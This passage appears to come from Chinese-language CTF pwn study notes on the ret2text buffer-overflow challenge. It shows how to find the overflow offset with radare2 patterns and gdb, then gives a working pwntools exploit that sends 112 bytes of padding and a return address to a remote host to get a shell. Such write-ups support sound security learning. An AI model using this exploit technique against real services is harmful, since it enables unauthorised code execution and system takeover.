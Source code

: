   - 使用ragg2

  `ragg2 -P 200 -r > pattern.txt`   or `ragg2 -P 200 -r`复制下来

  ```bash
   # ragg2 -P 200 -r
  AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAVAAWAAXAAYAAZAAaAAbAAcAAdAAeAAfAAgAAhAAiAAjAAkAAlAAmAAnAAoAApAAqAArAAsAAtAAuAAvAAwAAxAAyAAzAA1AA2AA3AA4AA5AA6AA7AA8AA9AA0ABBABCABDABEABFA#
  ```

  profile.rr2:

  ```bash
  #!/usr/bin/rarun2
  stdin=./pattern.txt
  ```

  `r2 -R profile.rr2 -d ret2text` or 直接`r2 -d ret2text`

  `dc`后输入复制的pattern字符串

  `wopO eip`得到偏移

  ![](https://my-md-1253484710.file.myqcloud.com/20190406231721.png)

  - gdb手动计算

    下断点call处：`0x080486ae` 

    ![](https://my-md-1253484710.file.myqcloud.com/20190406233003.png)

    ![](https://my-md-1253484710.file.myqcloud.com/20190406233035.png)

    ![](https://my-md-1253484710.file.myqcloud.com/20190412181030.png)

    所以偏移为108+4

    

    

  - python pattern.py

- payload

  ```python
  from pwn import *
  
  # sh = process(./ret2text)
  sh = remote("47.106.212.155",10001)
  binsh = 0x0804863a
  payload = 112*'A' + p32(binsh)
  sh.sendline(payload)
  sh.interactive()
  ```

  ![](https://my-md-1253484710.file.myqcloud.com/20190412181108.png)

###### ret2shellcode
